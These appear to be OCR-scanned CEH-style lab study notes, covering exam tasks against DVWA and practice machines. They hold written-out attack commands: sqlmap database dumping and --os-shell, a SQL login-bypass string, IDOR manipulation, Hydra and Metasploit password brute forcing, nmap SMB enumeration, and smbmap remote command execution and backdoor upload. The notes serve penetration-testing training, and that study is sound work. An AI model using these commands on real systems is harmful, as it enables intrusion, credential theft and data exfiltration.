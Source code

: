 [ Copy the cookie from website, mysql -U qdpmadmin -h 192.168.1.8 -P passwod [ If you have logins credentioals I sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/? id=1&Submit=Submit" --cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" --dbs Get list of tables -> sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" - cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" -D mysql --tables Dump data from tables -> sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" - cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" -D mysql -T db --dump Get OS shell -> sqlmap -u "http://1.1.1.3/dvwa/vulnerabilities/sqli/? id=1&Submit=Submit" --cookie="security=low; PHPSESSID=d6f94e8c6e291cc8770da9561cea6811" --os-shell {% content-ref url="../tools/sqlmap.md" %} sqlmap.md {% endcontent ref %} Perform an SQL injection attack on web application and retrieve psw of user Mario (you just know these credentials maria:ferrari10)   If we just know crediantials (how our case) login, otherwise we need to bypass login putting into username box: user' OR 1=1 -- and into psw a random text Click on view profile (../viewprofile.aspx?id=1). There, we can use IDOR vulnerability (manipulating =id value) and seeing info regarding another user. In alternative we can use SQLMap to dump user info. Snow  snow.exe -C -p “password” stegfile.txt OpenStego Analyze the image file and extract the sensitive data hidden in the file       Download  OpenStego for Windows OS > https://github.com/syvaidya/openstego/releases/download/openst ego-0.8.6/Setup-OpenStego-0.8.6.exe Run OpenStego Select Extract Data Upload file and select path of destination Insert how psw a potential keyword present into question Click to Extract Data CrypTool Can you decrypt the file and provide the contents of "flag1.txt" as the answer?    Connect to ftp using cmd: ftp IP After connect with FTP go to the file and download them using get or mget commands: get file.txt get file1.txt Decrypt file: open CrypTool program -> Encrypt/Decrypt -> Symmetric (modern) -> DES (ECB) WPSCAN Identify psw associated with the User ID "sarah" and resolve the issue to allow her to access her account again.  or wpscan --url http://192.168.1.10:8080/CEH -u sarah -P passwdlist.txt msfconsole -q use auxiliary/scanner/http/wordpress_login_enum show options set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt set RHOSTS set RPORT 8080 set TARGETURI http://10.10.10.10:8080/ set USERNAME admin Hashes.com Decrypt/Crack the MD5 hash present into a website A file called "Secrethash.txt" has been uploaded via DVWA at http://192.168.1.10:8080/DVWA. The file is located at the following path: C:\wamp64\www\DVWA\hackable\uploads\Secret-Hash.txt. Your task is to crack the MD5 hash present in the file and reveal the original message. You can access the file by logging into DVWA using the provided credentials: superuser::superman.   Got to the site, login, go to the url uploads/Secret-hash.txt Decrypt file using this web tool: https://hashes.com/en/decrypt/hash RDP Connect to RDP port xfreerdp /v: /u:Administrator Find secret number hidden inside the file located in a directory (accessible using RDP) A file named "Secret.txt" that has been concealed within the Server 2019 machine is located at the following path: C:\Users\Dell\Documents\ Confidential. You will need to use a backdoor installed in the server to access the file. (it's a fake news) Your objective is to find the secret number hidden inside the file and provide it as your answer.    User credentials of RDP you find in the previous answer (of rdp) to login. Browse to the mentioned path C:\Users\Dell\Documents\Confidential Open "Secret.txt" file and copy the number inside. Find suspicious account? You've a credential of one user, you can use RDP to log in e found suspicious account (port 3389).  Opening cmd and use: net user command. Check phone number of Maria A site has SQLi vulnerability, the cookie information is stored in a text file in the Documents folder of the EH-2 machine. Use the SQL DSSS attack method to capture the session link. Determine the contact number of Maria associated twith a website.  We bypass auth, then use IDOR to find Maria's number Netbios If you get any questions related to netbios, SMB use metasploit. SMB Nmap sudo nmap -p 445 -sV -sC -O nmap -sU --top-ports 25 --open nmap -p 445 --script smb-protocols nmap -p 445 --script smb-security-mode nmap -p 445 --script smb-enum-sessions nmap -p 445 --script smb-enum-sessions --script-args smbusername=,smbpassword= nmap -p 445 --script smb-enum-shares nmap -p 445 --script smb-enum-shares --script-args smbusername=,smbpassword= nmap -p 445 --script smb-enum-users --script-args smbusername=,smbpassword= nmap -p 445 --script smb-server-stats --script-args smbusername=,smbpassword= nmap -p 445 --script smb-enum-domains--script-args smbusername=,smbpassword= nmap -p 445 --script smb-enum-groups--script-args smbusername=,smbpassword= nmap -p 445 --script smb-enum-services --script-args smbusername=,smbpassword= nmap -p 445 --script smb-enum-shares,smb-ls --script-args smbusername=,smbpassword= nmap -p 445 --script smb-os-discovery nmap -p445 --script=smb-vuln-* SMBMap smbmap -u guest -p "" -d . -H smbmap -u -p '' -d . -H ## Run a command smbmap -u -p '' -H -x 'ipconfig' ## List all drives smbmap -u -p '' -H -L ## List dir content smbmap -u -p '' -H -r 'C$' ## Upload a file smbmap -u -p '' -H --upload '/root/sample_backdoor' 'C$\sample_backdoor' ## Download a file smbmap -u -p '' -H --download 'C$\flag.txt' SMB - Hydra hydra -l admin -P /usr/share/wordlists/rockyou.txt smb SMB - Metasploit # METASPLOIT Starting msfconsole msfconsole -q # METASPLOIT SMB use auxiliary/scanner/smb/smb_version use auxiliary/scanner/smb/smb_enumusers use auxiliary/scanner/smb/smb_enumshares use